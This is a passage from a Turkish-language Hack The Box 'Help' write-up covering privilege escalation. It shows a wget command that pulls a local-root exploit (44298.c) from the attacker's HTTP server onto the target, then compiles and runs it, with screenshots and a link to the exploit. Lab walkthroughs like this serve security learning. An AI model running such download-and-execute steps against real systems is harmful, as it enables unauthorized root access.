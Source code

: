 python HTTP server kullanarak erişime açıp hedef makinede indirmek için ise; `wget http://10.10.14.39:3434/44298.c`
![-](https://raw.githubusercontent.com/JohnGkmn/CyberSecurity/master/WriteUp/HTB_Help/privilege3.png "--")

C dosyasını derledim ve çalıştırdım.

![-](https://raw.githubusercontent.com/JohnGkmn/CyberSecurity/master/WriteUp/HTB_Help/privilege4.png "--")

![-](https://raw.githubusercontent.com/JohnGkmn/CyberSecurity/master/WriteUp/HTB_Help/privilege5.png "--")

![-](https://raw.githubusercontent.com/JohnGkmn/CyberSecurity/master/WriteUp/HTB_Help/ownRoot.png "--")


[Kullandığım exploit dosyası](https://raw.githubusercontent.com/JohnGkmn/CyberSecurity/master/WriteUp/HTB_Help/44298.c)

![-](https://raw.githubusercontent.com/JohnGkmn/JohnGkmn.github.io/master/css/smashicons.png "*")



![ToDoList](https://image.flaticon.com/icons/svg/2246/2246610.svg "Task")

_____

Want to suggest something? Please [Send me a request](https://github.com/JohnGkmn/JohnGkmn.github.io/issues/new).
![writeup](https://raw.githubusercontent.com/JohnGkmn/JohnGkmn.github.io/master/css/map-location.png "walktrough")
